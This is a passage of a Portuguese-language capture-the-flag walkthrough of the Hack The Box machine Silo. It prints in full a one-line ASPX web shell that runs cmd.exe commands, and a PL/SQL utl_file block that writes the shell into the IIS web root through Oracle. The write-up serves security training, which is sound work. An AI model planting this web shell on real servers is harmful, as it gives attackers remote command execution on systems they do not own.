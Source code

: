 Confirmando...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql8.png)

Conseguimos escrever! Agora vamos pegar um webshell aspx nessa máquina

#### Pegando um shell

Na prórpria Kali já temos o webshell aspx que podemos utilizar para ganhar um reverse shell melhor, eles ficam em `/usr/share/webshells/aspx/cmdasp.aspx`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql9.png)

Mas agora temos um problema, ele está cheio de quebras de linha e está muito grande... temos que remover isso pq o SQL não aceita quebra de linha, então vamos mover ele para nossa pasta de trabalho e remover essas quebras de linha substituindo pro espaços simples

O novo ficou assim

```
<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_sql10.png)

A flag -z é pra isso, transformar as quebras de linhas em 'zero-byte'

Hum... acho que agora da, pq ficou tudo como se fosse uma linha e está com menos de 1000 bytes

É, ficou grande o comando, espero que funcione

```
SQL> declare
  2     f utl_file.file_type;
  3     s varchar(5000) := '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>';
  4  begin
  5     f := utl_file.fopen('/inetpub/wwwroot/', 'hello.aspx','W');
  6     utl_file.put_line(f,s);
  7     utl_file.fclose(f);
  8  end;
  9  /

PL/SQL procedure successfully completed.
```
